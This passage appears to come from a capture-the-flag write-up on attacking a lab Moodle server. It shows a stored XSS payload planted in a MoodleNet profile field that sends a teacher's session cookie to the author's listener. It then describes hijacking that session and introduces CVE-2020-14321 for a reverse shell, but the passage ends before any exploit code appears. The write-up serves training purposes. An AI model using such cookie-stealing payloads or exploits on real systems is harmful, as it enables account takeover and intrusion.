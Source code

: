 
## Exploitation

What we know at this point is enough to start exploiting our target's vulnerabilities to try and get a foothold on the system.

Having the information that the teacher checks our MoodleNet profiles, we can create a script that intercepts our teacher's session cookie.

For this purpose we can create a listener on our system and submit as a `MoodleNet profile` URL the following


```html
<script>document.information="10.10.14.186:8888/?"+document.cookie</script>
```

After a couple of seconds, we receive a response on our listener.

![alt text](images/image-15.png)

Next step is to replace our session cookie with the one our teacher has. 

![alt text](images/image-16.png)

We can browse on `http://moodle.schooled.htb/moodle` and see that now we are logged in as our math teacher.

![alt text](images/image-17.png)

The previously identified RCE exploit disclosed as **CVE-2020-14321**, can be used to spawn a reverse shell, using our teacher's session cookie. The exploitation script can now be executed using `python3` as follows, or perform a manual exploitation of our target, escalating our teacher's privileges from current role to **Manager** and then uploading a malicious payload that grants us RCE. In this writeup I included both methods in order to understand how the vulnerability works behind an automated script.
